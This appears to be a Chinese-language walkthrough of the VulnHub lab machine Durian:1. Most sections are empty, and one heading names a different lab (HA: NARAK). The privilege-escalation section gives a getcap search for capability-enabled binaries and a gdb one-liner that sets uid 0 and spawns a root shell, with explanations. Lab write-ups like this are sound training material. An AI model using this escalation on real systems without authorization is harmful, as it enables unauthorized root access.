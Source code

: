 # 原创
：  VulnHub渗透测试实战靶场-Durian：1

# VulnHub渗透测试实战靶场-Durian：1

#### VulnHub渗透测试实战靶场-Durian：1

## 环境下载

> 



## HA：NARAK靶机搭建

> 



## 渗透测试

### 信息搜集

> 



> 



> 



### 漏洞挖掘

> 



> 



> 



### getshell

> 



> 



### 提权

> 



```
getcap -r / 2&gt;/dev/null
gdb -nx -ex 'python import os;os.setuid(0)' -ex '!bash' -ex quit 

```

```
getcap -r / 2&gt;/dev/null
getcap:查看可执行文件获取的内核权限
r：代表顶层目录
2&gt;/dev/null:就是将标准错误stderr删掉

gdb -nx -ex 'python import os; os.setuid(0)' -ex '!bash' -ex quit
gdb:简单理解就是可以启动程序并且按照自己的自定义随心所欲的运行程序
-nx:不要从任何.gdbinit初始化文件执行命令
-ex"执行给定的GDB命令
简单理解就是首先利用gdb的权限去执行命令：命令的作用是利用python 设置一个uid为0（就是root）的shell

```
